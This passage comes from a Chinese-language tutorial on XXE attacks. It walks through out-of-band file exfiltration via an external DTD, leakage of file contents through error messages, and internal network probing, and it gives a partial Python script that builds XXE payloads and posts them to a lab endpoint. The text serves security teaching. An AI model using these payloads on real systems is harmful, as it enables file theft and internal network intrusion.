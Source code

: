 [![](https://p2.ssl.qhimg.com/t0177676f0a5d14e921.png)](https://p2.ssl.qhimg.com/t0177676f0a5d14e921.png)

如图，我们先声明一个外部的DTD引用，然后再xml文档内容中引用外部DTD中的一般实体。

开始攻击：

[![](https://p1.ssl.qhimg.com/t0131ad37d141e60ca2.png)](https://p1.ssl.qhimg.com/t0131ad37d141e60ca2.png)

然后查看我们的端口监听情况，会发现我们收到了一个连接请求，问号后面的内容就是我们读取到的文件内容经过编码后的字符串：

Ps：

有时候也会出现报错的情况（这是我们在漏洞的代码中没有屏蔽错误和警告），比如我们这里的payload没有选用php的base64编码，这里报错了，但是同时也将所读取的内容爆了出来，只是特殊字符经过了HTML实体编码。

[![](https://p0.ssl.qhimg.com/t010a307155613a9a92.png)](https://p0.ssl.qhimg.com/t010a307155613a9a92.png)

**内网探测**

xxe 由于可以访问外部 url，也就有类似 ssrf 的攻击效果，同样的，也可以利用 xxe 来进行内网探测。

可以先通过 file 协议读取一些配置文件来判断内网的配置以及规模，以便于编写脚本来探测内网。

一个 python 脚本实例：

```
import requests

import base64



#Origtional XML that the server accepts

#&lt;xml&gt;

#    &lt;stuff&gt;user&lt;/stuff&gt;

#&lt;/xml&gt;



def build_xml(string):

    xml = """&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;"""

    xml = xml + "\r\n" + """&lt;!DOCTYPE foo [ &lt;!ELEMENT foo ANY &gt;"""

    xml = xml + "\r\n" + """&lt;!ENTITY xxe SYSTEM """ + '"' + string + '"' + """&gt;]&gt;"""

    xml = xml + "\r\n" + """&lt;xml&gt;"""

    xml = xml + "\r\n" + """    &lt;stuff&gt;&amp;xxe;&lt;/stuff&gt;"""

    xml = xml + "\r\n" + """&lt;/xml&gt;"""

    send_xml(xml)

def send_xml(xml):

    headers = `{`'Content-Type': 'application/xml'`}`

    x = requests.post('http://127.0.0.1/xml.php', data=xml, headers=headers, timeout=5).text

    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value

```